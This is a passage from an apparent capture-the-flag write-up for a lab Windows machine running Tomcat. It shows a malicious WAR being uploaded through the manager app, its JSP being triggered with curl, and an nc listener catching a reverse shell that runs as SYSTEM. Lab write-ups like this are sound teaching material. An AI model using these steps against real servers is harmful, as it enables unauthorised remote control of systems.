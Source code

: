 I’ll also need to know the name of the jsp page to activate it with curl. I’ll
use `jar` to list the contents of the war.

    
    
    root@kali# jar -ft rev_shell-9002.war
    META-INF/
    META-INF/MANIFEST.MF
    WEB-INF/
    WEB-INF/web.xml
    ppaejmsg.jsp
    

Alternatively, if I wanted to use the web gui, I could click on the link
without knowing the jsp name.

### Upload and Run

Now upload through the manager application, and then curl the page at
`http://[host]/[war name]/[jsp]`:

    
    
    root@kali# curl http://10.10.10.95:8080/rev_shell-9002/ppaejmsg.jsp
    
    
    
    root@kali# nc -lnvp 9002
    listening on [any] 9002 ...
    connect to [10.10.15.83] from (UNKNOWN) [10.10.10.95] 49193
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    C:\apache-tomcat-7.0.88>whoami
    whoami
    nt authority\system
    

## Flags

With a shell as system, it’s easy to get both flags:

    
    
    C:\Users\Administrator\Desktop>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is FC2B-E489
    
     Directory of C:\Users\Administrator\Desktop
    
    06/19/2018  07:09 AM    <DIR>          .
    06/19/2018  07:09 AM    <DIR>          ..
    06/19/2018  07:09 AM    <DIR>          flags
                   0 File(s)              0 bytes
                   3 Dir(s)  27,450,302,464 bytes free
    
    C:\Users\Administrator\Desktop>cd flags
    cd flags
    
